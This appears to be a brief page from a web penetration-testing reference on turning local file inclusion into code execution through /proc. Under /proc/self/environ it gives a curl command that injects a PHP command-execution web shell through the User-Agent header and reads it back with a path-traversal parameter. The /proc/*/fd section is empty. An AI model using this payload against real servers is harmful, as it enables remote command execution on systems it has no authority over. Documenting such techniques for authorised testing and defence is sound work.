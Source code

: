 ```yaml
---
authors: ShutdownRepo
category: web
---
```


# /proc

::: details /proc/self/environ
Testers can abuse a process created due to a request. The payload is injected in the `User-Agent` header.

```bash
# Sending a request to $URL with a malicious user-agent
# Accessing the payload via LFI
curl --user-agent "<?php passthru($_GET['cmd']); ?>" $URL/?parameter=../../../proc/self/environ
```
:::


::: details 🛠️ /proc/*/fd

:::

